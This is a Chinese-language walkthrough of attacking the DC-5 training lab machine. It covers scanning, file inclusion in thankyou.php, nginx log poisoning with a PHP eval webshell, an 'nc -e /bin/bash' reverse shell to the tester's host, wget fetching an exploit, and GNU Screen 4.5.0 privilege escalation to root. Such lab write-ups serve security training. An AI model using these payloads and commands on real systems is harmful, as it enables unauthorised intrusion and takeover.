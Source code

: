 ## DC-5渗透测试

### 主机扫描

```shell
nmap -sn 192.168.56.0/24
Nmap scan report for 192.168.56.109
Host is up (0.00038s latency).
MAC Address: 08:00:27:C0:33:AA (Oracle VirtualBox virtual NIC)
```

> 靶机ip：192.168.56.109

### 端口扫描

扫描全端口

```shell
nmap --min-rate 10000 -p- 192.168.56.109
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 02:26 EDT
Stats: 0:00:37 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 76.19% done; ETC: 02:27 (0:00:12 remaining)
Nmap scan report for 192.168.56.109
Host is up (0.00028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
59961/tcp open  unknown
MAC Address: 08:00:27:C0:33:AA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 85.26 seconds
```

rpcbind是NFS中 用来进行消息通知的服务。一般情况 下rpcbind运行在111端口。并且NFS配置开 启rpcbind_ enable="YES"

[rpcbind](https://www.cnblogs.com/lnterpreter/p/15504651.html)

可以搜一下rpcbind有什么漏洞`searchsploit rpcbind`，没有什么可利用的漏洞

```
nmap -p 111 --script=rpcinfo 192.168.56.109
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 02:33 EDT
Nmap scan report for 192.168.56.109
Host is up (0.00047s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33709/udp6  status
|   100024  1          36913/tcp6  status
|   100024  1          39562/udp   status
|_  100024  1          59961/tcp   status
MAC Address: 08:00:27:C0:33:AA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```

### 目录扫描

```shell
dirsearch -u http://192.168.56.109
```

```shell
Target: http://192.168.56.109/

[02:28:05] Starting: 
[02:28:23] 200 -    4KB - /contact.php
[02:28:24] 301 -  184B  - /css  ->  http://192.168.56.109/css/
[02:28:27] 200 -    6KB - /faq.php
[02:28:28] 200 -   17B  - /footer.php
[02:28:30] 403 -  570B  - /images/
[02:28:30] 301 -  184B  - /images  ->  http://192.168.56.109/images/
[02:28:47] 200 -  852B  - /thankyou.php
```

接着看web页面

### 漏洞发现和利用

观察页脚，每次刷新他都会变

![image-20240312143700257](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240312143700257.png)

根据我们扫到的footer.php，这里可能包含了footer.php

wfuzz枚举一下参数

```
wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt 192.168.56.109/thankyou.php?FUZZ=/etc/passwd
```

```
000000343:   200        42 L     66 W       851 Ch      "filter"
000000342:   200        42 L     66 W       851 Ch      "files"
000000341:   200        70 L     104 W      2319 Ch     "file"
000000337:   200        42 L     66 W       851 Ch      "failed"
```

参数就是file

这里使用的是nginx服务，可以利用日志包含

#### 日志包含

nginx的默认日志在`/var/log/nginx/access.log`中，错误日志在`/var/log/nginx/error.log`中

```
http://192.168.56.109/thankyou.php?file=<?php @eval($_POST[1]);?>
```

写进去一句话木马，直接蚁剑连接了

![image-20240312145830178](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240312145830178.png)

接着弹一个shell到kali

```
nc -e /bin/bash 192.168.56.101 1234
```

### 提权

首先查看一下有suid权限的文件

```bash
www-data@dc-5:~$ find / -type f -perm -4000 2>/dev/null
find / -type f -perm -4000 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```

这里我第一眼就看到了/bin/screen-4.5.0，就直接找它的漏洞

```
searchsploit screen
```

```
GNU Screen 4.5.0 - Local Privilege Escalation    linux/local/41154.sh
```

还真让我找对了，本地提权走起

复制到当前目录下

```
cp /usr/share/exploitdb/exploits/linux/local/41154.sh dc-5.sh
```

下载到靶机上

```shell
www-data@dc-5:/tmp$ wget http://192.168.56.101/dc-5.sh
wget http://192.168.56.101/dc-5.sh
converted 'http://192.168.56.101/dc-5.sh' (ANSI_X3.4-1968) -> 'http://192.168.56.101/dc-5.sh' (UTF-8)
--2024-03-12 17:09:29--  http://192.168.56.101/dc-5.sh
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1149 (1.1K) [text/x-sh]
Saving to: 'dc-5.sh'

dc-5.sh             100%[=====================>]   1.12K  --.-KB/s   in 0s     

2024-03-12 17:09:29 (317 MB/s) - 'dc-5.sh' saved [1149/1149]
```

直接执行

```
bash dc-5.sh
```

```shell
www-data@dc-5:/tmp$ bash dc-5.sh
bash dc-5.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

拿到root的权限

![image-20240312151248203](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240312151248203.png)

### 总结

> wfuzz的利用
>
> nginx的日志默认路径在哪？
>  `访问日志：/usr/local/nginx/logs/access.log` 或者 `/var/log/nginx/access.log`
>  `错误日志：/usr/loacl/nginx/logs/error.log` 或者`/var/log/nginx/error.log`
>
> 靶机涉及的知识点：
>
> 文件包含，日志包含，wfuzz参数的枚举，screen提权